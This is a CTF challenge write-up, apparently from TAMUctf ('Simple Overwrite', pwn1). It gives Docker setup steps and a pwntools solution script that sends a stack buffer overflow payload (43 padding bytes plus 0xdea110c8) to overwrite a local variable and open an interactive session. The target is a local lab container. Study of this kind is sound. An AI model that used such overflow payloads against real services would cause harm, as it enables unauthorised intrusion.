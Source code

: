 # Simple Overwrite

## Challenge
`nc pwn.tamuctf.com 4321`  

## Setup

Build the container with `docker build -t pwn1 .` and run it with `docker run -it --rm pwn1`

## Solution
The solution is to overwrite the localvariable. Below is an expample script:  
```python
from pwn import *

p = remote('172.17.0.2', 4321)

#p = process('./pwn1')
flag = p32(0xdea110c8)
payload = 'A'*43 + flag
p.sendline('Sir Lancelot of Camelot')
p.read()
p.sendline('To seek the Holy Grail.')
p.read()
p.sendline(payload)
p.interactive()
```
